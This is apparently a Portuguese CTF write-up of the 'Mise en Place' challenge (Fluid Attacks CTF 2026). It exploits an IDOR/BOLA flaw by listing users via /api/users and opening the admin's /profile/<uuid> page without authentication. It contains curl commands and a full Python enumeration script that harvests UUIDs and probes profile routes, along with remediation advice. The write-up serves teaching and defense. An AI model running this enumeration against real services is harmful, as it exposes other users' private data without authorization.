

# Mise en Place | Fluid Attacks CTF 2026

`web` `idor` `bola` `broken-access-control` `api-enumeration`

| | |
|---|---|
| **Plataforma / evento** | Fluid Attacks CTF 2026 (etapa 2, 04/07/2026) |
| **Categoria** | Web |
| **Resolvido em** | 2026-07-04 |

## TL;DR

O site de receitas tem uma API que lista todos os usuários em `/api/users`, incluindo o "Chef Admin" (`role: admin`) com o UUID dele exposto. As páginas de perfil ficam em `/profile/<uuid>` e não exigem autenticação nem checam se o perfil é seu. Então eu pego o UUID do admin na listagem e acesso `/profile/decad4bf-...` direto: a página de perfil do admin mostra a "System Flag".

> [!IMPORTANT]
> **Ideia-chave:** IDOR clássico. O identificador do recurso (UUID) é entregue pela própria API, e o acesso ao recurso só depende de conhecer o ID, não de ter permissão sobre ele.

## Enunciado

> Mise en Place, recipes from home kitchens across Latin America.

**Arquivos / instância:** sem código-fonte, só o site. Na minha instância o host era `e866e16c2861fae2.chal.ctf.ae`. O HTML comenta os endpoints: `<!-- API v2.1 | Endpoints: /api/users, /api/recipes -->`.

## Dicas progressivas

<details><summary>Dica 1</summary>O HTML entrega os endpoints da API num comentário. Liste <code>/api/users</code>.</details>
<details><summary>Dica 2</summary>Um dos usuários é admin. As páginas de perfil ficam em <code>/profile/&lt;uuid&gt;</code> e não checam quem é você.</details>
<details><summary>Dica 3</summary>Pegue o UUID do Chef Admin em <code>/api/users</code> e abra <code>/profile/&lt;uuid-do-admin&gt;</code>.</details>

## Ambiente

- **Máquina atacante:** Kali Linux, Python 3 (stdlib `urllib`). Também dá com `curl`.

***INSERIR no terminal: Kali (atacante)

```bash
export TARGET=e866e16c2861fae2.chal.ctf.ae
```

Na minha instância o host era esse (HTTP na 80 deu timeout, usei HTTPS).

## Resolução

### 1. Reconhecimento: a API lista todo mundo

O HTML da home comenta os endpoints. `/api/users` devolve a lista completa, e um dos registros é o admin:

***INSERIR no terminal: Kali (atacante)

```bash
curl -sk "https://$TARGET/api/users" | python3 -m json.tool
```

```text
{
  "users": [
    {
      "display_name": "Chef Admin",
      "role": "admin",
      "username": "chef_admin",
      "uuid": "decad4bf-db81-4cd6-b172-57623bd7d736"
    },
    { "role": "member", ... },
    ...[snip]...
  ]
}
```

A listagem me entrega o UUID do admin. Esse é o identificador do recurso que eu vou abusar.

> [!TIP]
> **Conceito: IDOR / BOLA (Broken Object Level Authorization).** Quando o acesso a um objeto depende só de conhecer o identificador dele (aqui, o UUID na URL `/profile/<uuid>`), e o servidor não verifica se o solicitante tem direito àquele objeto, qualquer um acessa o objeto de qualquer outro. UUID não é proteção: se ele vaza (e aqui vaza na própria API), o controle de acesso evapora. Referência: [OWASP API1:2023 Broken Object Level Authorization](https://owasp.org/API-Security/editions/2023/en/0xa1-broken-object-level-authorization/).

### 2. Exploração: abrir o perfil do admin

O meu script de enumeração extrai os UUIDs da home/API e testa as rotas de perfil para cada um. A que importa é a página de perfil do admin. Script completo, idêntico ao arquivo em `scripts/`:

> [!NOTE]
> O `TARGET` está fixo no topo do script (era a minha instância). Troque pela sua antes de rodar.

#### `scripts/script1.py`

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

"""
Mise en Place - enumeração inicial da API.

Objetivo:
1. Usar HTTPS, porque HTTP na porta 80 deu timeout.
2. Consultar os endpoints vazados no HTML: /api/users e /api/recipes.
3. Extrair UUIDs de perfis visíveis na home.
4. Testar rotas prováveis de API para cada perfil.
5. Procurar automaticamente por flag{...}.
6. Salvar respostas em loot/ para facilitar o writeup.
"""

import json
import re
import ssl
import sys
import urllib.error
import urllib.request
from pathlib import Path


TARGET = "e866e16c2861fae2.chal.ctf.ae"
BASE = f"https://{TARGET}"
LOOT = Path("loot")
LOOT.mkdir(exist_ok=True)

# Contexto SSL sem validação de certificado.
# Isso replica o curl -k, necessário porque o curl mostrou problema de verificação.
SSL_CTX = ssl._create_unverified_context()

HEADERS = {
    "User-Agent": "Mozilla/5.0 CTF-Enum",
    "Accept": "*/*",
}

FLAG_RE = re.compile(r"flag\{[^}\r\n]+\}", re.IGNORECASE)
UUID_RE = re.compile(
    r"[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}",
    re.IGNORECASE,
)


def safe_name(path: str) -> str:
    """
    Converte uma rota em nome seguro de arquivo.
    Exemplo: /api/users -> api_users.txt
    """
    name = path.strip("/").replace("/", "_")
    return name or "home"


def fetch(path: str):
    """
    Faz uma requisição GET e retorna:
    status, headers, body_text.

    Não interrompe o script em 404/500, porque em enumeração
    esses códigos também são informação útil.
    """
    url = BASE + path
    req = urllib.request.Request(url, headers=HEADERS, method="GET")

    try:
        with urllib.request.urlopen(req, context=SSL_CTX, timeout=20) as resp:
            status = resp.status
            headers = dict(resp.headers.items())
            raw = resp.read()
    except urllib.error.HTTPError as e:
        status = e.code
        headers = dict(e.headers.items())
        raw = e.read()
    except Exception as e:
        return None, {}, f"[ERRO] {type(e).__name__}: {e}"

    # Tenta decodificar como UTF-8, mantendo caracteres inválidos se existirem.
    text = raw.decode("utf-8", errors="replace")
    return status, headers, text


def save_response(path: str, status, headers, body: str):
    """
    Salva a resposta bruta com status, headers e corpo.
    """
    outfile = LOOT / f"{safe_name(path)}.txt"
    with outfile.open("w", encoding="utf-8") as f:
        f.write(f"URL: {BASE}{path}\n")
        f.write(f"STATUS: {status}\n")
        f.write("HEADERS:\n")
        for k, v in headers.items():
            f.write(f"{k}: {v}\n")
        f.write("\nBODY:\n")
        f.write(body)
    return outfile


def pretty_print_body(body: str):
    """
    Se a resposta for JSON, imprime formatado.
    Caso contrário, imprime um recorte do texto.
    """
    try:
        parsed = json.loads(body)
        print(json.dumps(parsed, indent=2, ensure_ascii=False))
    except Exception:
        print(body[:1500])


def main():
    print("=" * 80)
    print("MISE EN PLACE - ENUMERAÇÃO INICIAL")
    print("=" * 80)
    print(f"[+] Base: {BASE}")
    print()

    # Endpoints iniciais: home e APIs vazadas no HTML.
    paths = [
        "/",
        "/api/users",
        "/api/recipes",
    ]

    bodies = {}

    for path in paths:
        print("=" * 80)
        print(f"[+] GET {path}")
        print("=" * 80)

        status, headers, body = fetch(path)
        bodies[path] = body

        outfile = save_response(path, status, headers, body)

        print(f"[+] Status: {status}")
        print(f"[+] Content-Type: {headers.get('Content-Type', 'N/A')}")
        print(f"[+] Salvo em: {outfile}")
        print()
        pretty_print_body(body)
        print()

        flags = FLAG_RE.findall(body)
        if flags:
            print("[+] FLAG ENCONTRADA:")
            for flag in flags:
                print(flag)
                (LOOT / "flag.txt").write_text(flag + "\n", encoding="utf-8")
            return 0

    # Extrai UUIDs encontrados na home e na API.
    all_text = "\n".join(bodies.values())
    uuids = sorted(set(UUID_RE.findall(all_text)))

    print("=" * 80)
    print("UUIDS ENCONTRADOS")
    print("=" * 80)
    for uuid in uuids:
        print(uuid)
    print(f"[+] Total: {len(uuids)}")
    print()

    # Para cada UUID, testa rotas prováveis.
    # A ideia é encontrar diferença entre perfil público e representação interna da API.
    profile_paths = []
    for uuid in uuids:
        profile_paths.extend([
            f"/profile/{uuid}",
            f"/api/users/{uuid}",
            f"/api/user/{uuid}",
            f"/api/profile/{uuid}",
            f"/api/profiles/{uuid}",
        ])

    # Também testa nomes comuns para admin.
    profile_paths.extend([
        "/profile/admin",
        "/api/users/admin",
        "/api/user/admin",
        "/api/profile/admin",
        "/api/profiles/admin",
    ])

    seen = set()

    for path in profile_paths:
        if path in seen:
            continue
        seen.add(path)

        print("=" * 80)
        print(f"[+] GET {path}")
        print("=" * 80)

        status, headers, body = fetch(path)
        outfile = save_response(path, status, headers, body)

        print(f"[+] Status: {status}")
        print(f"[+] Content-Type: {headers.get('Content-Type', 'N/A')}")
        print(f"[+] Salvo em: {outfile}")

        # Mostra mais detalhe só para respostas promissoras.
        if status in (200, 201, 202, 301, 302, 403):
            print()
            pretty_print_body(body)
            print()

        flags = FLAG_RE.findall(body)
        if flags:
            print("[+] FLAG ENCONTRADA:")
            for flag in flags:
                print(flag)
                (LOOT / "flag.txt").write_text(flag + "\n", encoding="utf-8")
            return 0

    print("=" * 80)
    print("FINAL")
    print("=" * 80)
    print("[!] Flag não encontrada automaticamente ainda.")
    print("[!] Próximo passo: analisar loot/api_users.txt e diferenças entre perfis.")
    return 1


if __name__ == "__main__":
    sys.exit(main())
```

***INSERIR no terminal: Kali (atacante)

```bash
python3 scripts/script1.py
```

```text
[+] GET /api/users
      "display_name": "Chef Admin",
      "role": "admin",
      "uuid": "decad4bf-db81-4cd6-b172-57623bd7d736"
...[snip]...
[+] GET /profile/decad4bf-db81-4cd6-b172-57623bd7d736
[+] Status: 200
```

O perfil do admin (status 200, sem login) traz a flag no HTML:

***INSERIR no terminal: Kali (atacante)

```bash
curl -sk "https://$TARGET/profile/decad4bf-db81-4cd6-b172-57623bd7d736" | grep -i flag-value
```

```text
<code class="flag-value">flag{6d37976eeaaXXXXX}</code>
```

## Cadeia de ataque



## Por que funciona

A suposição quebrada é que os perfis são protegidos por serem identificados por UUID "impossível de adivinhar". Mas o UUID não precisa ser adivinhado: a API o entrega em `/api/users`. E a rota `/profile/<uuid>` não verifica autenticação nem se o perfil pertence ao solicitante, então conhecer o ID basta para ler o recurso. A primitiva é ler o perfil de qualquer usuário; o impacto é ler o do admin, que carrega a flag.

## Remediação

- Verificar autorização por objeto: só devolver o perfil se o solicitante for o dono ou tiver permissão.
- Não expor dados sensíveis (flag/segredos) em perfis acessíveis por ID.
- Não listar todos os usuários com seus identificadores internos num endpoint público.

## Lições e padrões

- **Sinais para reconhecer:** recursos acessados por ID na URL (`/profile/<id>`, `/api/orders/<id>`), um endpoint que enumera esses IDs, e ausência de login. Troque o ID pelo de outro usuário (ou pelo do admin) e veja se abre.
- **Da próxima vez eu tentaria primeiro:** achar o endpoint de listagem, extrair o ID do usuário mais privilegiado (admin/chef/root) e acessar o recurso dele diretamente.

## Referências

- [OWASP API1:2023 Broken Object Level Authorization](https://owasp.org/API-Security/editions/2023/en/0xa1-broken-object-level-authorization/)
- [PortSwigger: IDOR](https://portswigger.net/web-security/access-control/idor)

## Flag

```text
flag{6d37976eeaaXXXXX}
```
